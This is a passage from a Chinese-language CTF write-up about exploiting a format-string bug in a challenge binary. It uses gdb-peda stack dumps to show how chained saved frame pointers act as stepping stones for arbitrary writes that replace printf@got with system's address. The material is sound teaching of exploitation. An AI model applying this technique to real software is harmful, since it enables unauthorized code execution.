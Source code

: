 ```plain
0000| 0x7ffcd17eade0 --> 0x7fdcea2518e0  <-- %6$p
0008| 0x7ffcd17eade8 --> 0x25ab040
0016| 0x7ffcd17eadf0 --> 0x7ffcd17eae10
0024| 0x7ffcd17eadf8 --> 0x400f57
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Breakpoint 1, 0x0000000000400ed1 in ?? ()
gdb-peda$ x 0x7fdcea2518e0
   0x7fdcea2518e0 <_IO_2_1_stdin_>:	mov    esp,DWORD PTR [rax]
```
##### 2.利用格式化漏洞来实现任意地址写
由于用来存放错误字符串的ptr位于堆上，所以不能随心所欲地在栈上布置指针来实现任意地址写，那么该如何任意写目标呢？在这里我们需要利用ebp作为跳板，在栈上构造出指向任意地址的指针来完成任意地址写。看到这里，相信学习过队内二进制渗透教程第三章的人对这个套路都会有一些印象，教程中就举了一个利用ebp来完成格式化字符串攻击的例子。不过在这里，需要对ebp做更进一步利用。当输入一个简单的错误表达式触发存在格式化字符串漏洞代码时，当前栈结构如下：
```plain
Breakpoint 1, 0x0000000000400ed1 in ?? ()
gdb-peda$ stack 25
0000| 0x7ffc9203eea0 -->                 <-- %6$
0008| 0x7ffc9203eea8 --> 
0016| 0x7ffc9203eeb0 --> 0x7ffc9203eed0  <-- sub_400E84's ebp %8$
0024| 0x7ffc9203eeb8 --> 0x400f57        <-- sub_400E84's ret addr 
0032| 0x7ffc9203eec0 --> 
0040| 0x7ffc9203eec8 --> 
0048| 0x7ffc9203eed0 --> 0x7ffc9203eef0  <-- sub_400EFE's ebp %12$
0056| 0x7ffc9203eed8 --> 0x4010f7        <-- sub_400EFE's ret addr
0064| 0x7ffc9203eee0 --> 
0072| 0x7ffc9203eee8 --> 
0080| 0x7ffc9203eef0 --> 0x7ffc9203ef10  <-- sub_4010E5's ebp %16$
0088| 0x7ffc9203eef8 --> 0x40117c        <-- sub_4010E5's ret addr
0096| 0x7ffc9203ef00 --> 
0104| 0x7ffc9203ef08 --> 
0112| 0x7ffc9203ef10 --> 0x7ffc9203ef30  <-- sub_40114F's ebp %20$
0120| 0x7ffc9203ef18 --> 0x400841        <-- sub_40114F's ret addr
0128| 0x7ffc9203ef20 --> 
0136| 0x7ffc9203ef28 --> 
0144| 0x7ffc9203ef30 --> 0x7ffc9203ef40  <-- sub_400806's ebp %24$
0152| 0x7ffc9203ef38 --> 0x4008e9        <-- sub_400806's ret addr
0160| 0x7ffc9203ef40 --> 0x4011d0        <-- main's ebp       %26$
0168| 0x7ffc9203ef48 --> 0x7fbabe52e830  <-- main's ret addr
gdb-peda$ 
```
在这里，我选用了函数sub_40114F的ebp作为第一层跳板来修改函数sub_400806的ebp值，让其指向栈上某个空闲的位置，然后再利用函数sub_400806的ebp作为第二次跳板向其指向的空闲位置写入指向printf@got的指针，最后用栈上指向printf@got的指针作为第三层跳板，覆盖printf@got的值为system的地址。整个格式化写过程使用%$hhn来完成，所以需要输入大量错误表达式来完成格式化写操作。完成第三层跳板的构造后，当前栈结构如下：
```plain
Breakpoint 1, 0x0000000000400edb in ?? ()
gdb-peda$ stack 30
......
......
0112| 0x7fffe5936150 --> 0x7fffe5936170 <-- sub_40114F's ebp
0120| 0x7fffe5936158 --> 
0128| 0x7fffe5936160 --> 
0136| 0x7fffe5936168 --> 
0144| 0x7fffe5936170 --> 0x7fffe59361aa <-- sub_400806's ebp
0152| 0x7fffe5936178 --> 
0160| 0x7fffe5936180 --> 0x602038 <-- printf@got      %26$hhn
0168| 0x7fffe5936188 --> 0x602039 <-- printf@got + 1  %27$hhn
0176| 0x7fffe5936190 --> 0x60203a <-- printf@got + 2  %28$hhn
0184| 0x7fffe5936198 --> 0x60203b <-- printf@got + 3  %29$hhn
0192| 0x7fffe59361a0 --> 0x60203c <-- printf@got + 4  %30$hhn
0200| 0x7fffe59361a8 --> 0x60203d <-- printf@got + 5  %31$hhn
0208| 0x7fffe59361b0 -->
......
```